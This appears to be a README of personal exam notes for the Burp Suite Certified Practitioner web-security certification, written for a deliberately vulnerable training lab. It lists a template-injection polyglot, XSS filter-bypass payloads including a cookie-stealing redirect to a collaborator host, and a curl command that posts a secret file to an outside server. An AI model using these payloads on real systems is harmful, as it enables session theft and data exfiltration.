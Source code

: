 # BSCP
Burp Suite Certified Practitioner exam notes

---------

You will have four hours to complete the Burp Suite Certified Practitioner exam. There are two applications, and each application contains deliberate vulnerabilities. This means that each application can be completed in three stages:

1. Access any user account.
2. Use your user account to access the admin interface, perhaps by elevating your privileges or compromising the administrator account.
3. Use the admin interface to read the contents of `/home/carlos/secret` from the server's filesystem, and submit it using "submit solution".

[Username list](https://portswigger.net/web-security/authentication/auth-lab-usernames) 

[Password list](https://portswigger.net/web-security/authentication/auth-lab-passwords)

If you find an SSRF vulnerability, you can use it to read files by accessing an internal-only service, running on localhost on port `6566`.

`${{<%[%'"}}%\`

java path
```
D:\Application\java\jdk-11.0.20\bin\java.exe
```
ysoserial path
```
D:\Tools\tools\ysoserial\ysoserial-all.jar
```

XSS Bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads

```
eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))   <--  [echo -n "alert(document.cookie)" | base64 == YWxlcnQoZG9jdW1lbnQuY29va2llKQ==]
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
window['alert'](document['domain'])
window["doc"+"ument"]

location="http://google.com"
document.location = "http://google.com"
document.location="https://COLLABORATOR.com?c="+document.cookie
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"





```

```
curl http://colab.net -d @/home/carlos/secret

```












[![image](https://github.com/Manoj-Mukund/BSCP/assets/83630751/76c816f9-3c59-4a86-88b2-9b93c64402db)]()

